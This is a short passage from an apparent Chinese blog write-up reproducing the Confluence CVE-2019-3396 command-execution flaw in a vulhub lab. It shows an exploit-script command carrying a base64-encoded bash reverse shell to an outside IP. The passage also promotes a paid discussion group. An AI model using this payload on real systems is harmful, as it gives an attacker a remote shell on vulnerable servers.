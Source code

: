

![](https://img-blog.csdnimg.cn/20210131230542270.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



用脚本反弹shell



```
python2 cve-2019-3396.py http://192.168.10.129:8090 "bash -c {echo,YmFz+JiAvZGV2L3RjcC80Ny4xMDguMTQyLjI3LzQ0NDQgMD4mMQ==}|{base64,-d}|{bash,-i}"
```




![](https://img-blog.csdnimg.cn/20210131231957442.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



  如果想跟我一起讨论的话，就快加入我的知识星球吧。星球里有一千多位同样爱好安全技术的小伙伴一起交流！



![](https://img-blog.csdnimg.cn/1219ed79e9ed449d85d27b732cda5ea6.jpg)



参考文章：[Atlassian Confluence 路径穿越与命令执行漏洞（CVE-2019-3396）](https://github.com/vulhub/vulhub/tree/master/confluence/CVE-2019-3396 "Atlassian Confluence 路径穿越与命令执行漏洞（CVE-2019-3396）")



                [Atlassian Confluence 路径穿越与命令执行漏洞（CVE-2019-3396）复现](https://mp.weixin.qq.com/s/GvXGhgLoBmJSce5Azd2-rA "Atlassian Confluence 路径穿越与命令执行漏洞（CVE-2019-3396）复现")